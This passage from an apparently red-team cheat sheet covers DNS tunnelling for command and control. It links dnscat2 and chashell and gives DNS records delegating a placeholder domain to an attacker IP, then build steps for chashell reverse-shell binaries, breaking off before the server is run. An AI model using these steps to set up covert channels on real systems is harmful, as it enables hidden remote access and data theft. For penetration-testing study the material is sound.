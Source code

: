 


## Transport over DNS

* [https://xakep.ru/2018/09/07/dns-tunneling/](https://xakep.ru/2018/09/07/dns-tunneling/)
* [https://habr.com/ru/post/345056/](https://habr.com/ru/post/345056/)
* [https://habr.com/ru/company/group-ib/blog/496712/](https://habr.com/ru/company/group-ib/blog/496712/)



### dnscat2

* [https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2)
* [https://github.com/lukebaggett/dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell)



### chashell

* [https://github.com/sysdream/chashell](https://github.com/sysdream/chashell)

Buy and configure DNS (e. g., `c2cdomain.net`):

```
A * -> <IP>
A @ -> <IP>
A chashell -> <IP>
NS c -> chashell.c2cdomain.net
```

Get dependencies:

```
$ export GOPATH=/home/snovvcrash/code/go
$ export PATH=$GOPATH:$GOPATH/bin:$PATH
$ go get -v -u github.com/golang/dep/cmd/dep
$ go get github.com/mitchellh/gox
$ cd $GOPATH/src/github.com/golang/dep
$ go install ./...
```

Clone chashell into `$GOPATH/src` (otherwise, `dep` will error out):

```
$ git clone https://github.com/sysdream/chashell $GOPATH/src/chashell
$ cd $GOPATH/src/chashell
```

Build binaries:

```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.c2cdomain.net
$ make build-all OSARCH="linux/amd64"
```

Run server on Attacker:
